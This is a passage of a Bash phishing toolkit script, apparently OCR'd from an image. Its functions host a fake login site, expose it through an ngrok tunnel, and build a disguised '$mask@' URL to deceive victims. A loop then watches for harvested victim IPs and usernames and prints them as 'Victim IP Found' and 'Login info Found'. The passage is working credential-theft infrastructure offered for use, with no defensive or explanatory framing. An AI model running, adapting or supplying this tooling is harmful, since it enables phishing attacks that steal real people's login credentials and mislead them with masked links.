 ## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start ngrok
start_ngrok() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Ngrok..."

    if [[ `command -v termux-chroot` ]]; then
        sleep 2 && termux-chroot ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 & # Thanks to Mustakim Ahmed (https://github.com/BDhackers009)
    else
        sleep 2 && ./.server/ngrok http "$HOST":"$PORT" > /dev/null 2>&1 &
    fi

	{ sleep 8; clear; banner_small; }
	ngrok_url=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io")
	ngrok_url1=${ngrok_url#https://}
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 1 : ${GREEN}$ngrok_url"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} URL 2 : ${GREEN}$mask@$ngrok_url1"
	capture_data
}

## Start localhost
start_localhost() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	setup_site
	{ sleep 1; clear; banner_small; }
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Successfully Hosted at : ${GREEN}${CYAN}http://$HOST:$PORT ${GREEN}"
	capture_data
}
